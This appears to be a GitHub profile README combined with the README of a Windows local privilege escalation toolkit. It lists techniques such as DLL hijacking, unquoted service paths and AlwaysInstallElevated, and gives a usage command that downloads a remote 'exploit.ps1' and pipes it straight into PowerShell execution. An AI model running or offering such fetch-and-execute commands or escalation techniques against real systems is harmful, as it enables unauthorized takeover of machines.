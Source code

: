 <h1 align="left">Hey 👋 What's up?</h1>

###

<p align="left">Hello my name is Abbas Aghayev but internet knows me as d3hack. Can be d3hvck or d3hxck. If you can help me on anything, please do it. Love to share and work together with any professional.</p>

###

<h2 align="left">About me</h2>

###

<p align="left">✨ Im hacking Windows since 2011<br>📚 I'm currently learning AD DC and Advanced Penetration Testing Methods<br>🎯 Goals: Being HEAD OF CYBERSECURITY DIVISION<br>🎲 Fun fact: Do not trust any code on internet</p>

###

<h2 align="left">I work with</h2>

###

<div align="left">
  <img src="https://skillicons.dev/icons?i=powershell" height="40" alt="powershell logo"  />
  <img width="12" />
  <img src="https://cdn.simpleicons.org/c++/00599C" height="40" alt="cplusplus logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/c/c-original.svg" height="40" alt="c logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/vscode/vscode-original.svg" height="40" alt="vscode logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/python/python-original.svg" height="40" alt="python logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/windows8/windows8-original.svg" height="40" alt="windows8 logo"  />
</div>

###

<img align="left" height="400" src="https://raw.githubusercontent.com/d3hvck/WinPrivEsc/refs/heads/main/WindowsExploited.webp"  />

###

<div align="center">
  <img src="https://profile-counter.glitch.me/d3hvck/count.svg?"  />
</div>

###

<div align="center">
  <img src="https://github-read-medium-git-main.pahlevikun.vercel.app/latest?limit=4&username=@aghayev2a" alt="Layout with last medium posts"  />
</div>

###


# Windows Local Privilege Escalation

This tools is developed, tested and refined by "d3hack"
Like Uncle Ben said, "With great power comes great responsibility." But in our case...
💀 With great shell access comes absolute domination. 💀

Tested on win11 pro

Chck = Checker
Dlvr = Delivery Method
Enum = Enumeration
Exp = Exploit
Sec = Security or Audit Tools

Primary focused to escalate privileges: 

    - DLL Hijacking [+]

    - Service binPath [+]
    
    - Service UnquotedPathSvc [+]
    
    - Service Registry [+]
    
    - Service ExecFile  [+]

    - Registry Autorun [+]
    
    - Registry AlwaysInstallelevated [+] 

    - TrustedInstaller
    
    - Password Mining (Memory/Registry/Config File)

    - Scheduled Task [+]
    
    - Startup Application [+]

## Authors

- [d3hack @ LinkedIn ](https://linkedin.com/in/aghayev2a)

- [d3hvck @ Github  ](https://github.com/d3hvck)

## Usage

For extremely accuracy please run every scripts one by one 

```bash
  irm https://githubrawfilelink.com/blablabla/exploit.ps1 | iex 
```

```bash
  <> operator
  - dash
  / shash
  \ revers-shlash
  = equal
  $ val / def
  ' quot
  " double quot
```

Absolute Path in quotes:

 "C:\Program Files\Vuln Service\DLL.exe"

Relative Path
Windows
cmd.exe

Vuln Service Looks Like:

 - C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln.exe Service x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln Service.exe x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 